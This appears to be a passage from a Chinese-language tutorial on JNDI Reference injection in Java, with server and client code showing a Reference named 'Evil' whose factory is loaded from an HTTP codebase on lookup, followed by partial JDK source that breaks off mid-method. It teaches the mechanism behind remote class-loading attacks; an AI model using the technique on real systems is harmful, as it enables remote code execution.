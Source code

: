 其中RMI对象我们之前早已接触过，而serializable对象也不陌生，假如要是将serializable对象存储至JNDI服务中显然我们也可以实现Client和Server间的远程通信（这里会不会有反序列化漏洞？），但是有时要是序列化对象太大的话并不是Server所愿意看到的，这种情况下Reference应运而生。Reference对象实际上相当于一个封装，即告知对象的地址，类名称等信息来让JNDI服务重构一个完整的对象（听起来感觉有点像反序列化）

来看Reference的构造方法：

```java
public Reference(String className, String factory, String factoryLocation) {
  this(className);
  classFactory = factory;
  classFactoryLocation = factoryLocation;
}
```

实际上来说，当我们改写代码为以下时：

```java
import javax.naming.InitialContext;
import javax.naming.NamingException;
import javax.naming.Reference;
import java.rmi.RemoteException;

public class JNDIServer {
    public static void main(String[] args) throws NamingException, RemoteException {
        InitialContext initialContext = new InitialContext();
        Reference reference = new Reference("Evil", "Evil", "http://localhost:7777");
        initialContext.rebind("rmi://localhost:1098/testobj",reference);
    }
}
```

```java
import javax.naming.InitialContext;
import javax.naming.NamingException;
import java.rmi.RemoteException;

public class JNDIClient {
    public static void main(String[] args) throws NamingException, RemoteException {
        InitialContext initialContext = new InitialContext();
        RMIinterface rmIinterface = (RMIinterface)initialContext.lookup("rmi://localhost:1098/testobj");
        rmIinterface.test();
    }
}
```

在Server端我们不再绑定远程对象，而是绑定一个reference对象，当Client尝试从`"rmi://localhost:1098/testobj"`获取远程对象时，当在Client本地无法加载到classFactory时，会尝试从Reference对象的classFactoryLocation地址中加载Factory类并实例化（没错，会调用其无参构造方法），主要逻辑是lookup时会调用Naming.getObjectInstance

```java
public static Object
    getObjectInstance(Object refInfo, Name name, Context nameCtx,
                      Hashtable<?,?> environment)
    throws Exception
{

    ObjectFactory factory;

    // Use builder if installed
    ObjectFactoryBuilder builder = getObjectFactoryBuilder();
    if (builder != null) {
        // builder must return non-null factory
        factory = builder.createObjectFactory(refInfo, environment);
        return factory.getObjectInstance(refInfo, name, nameCtx,
            environment);
    }

```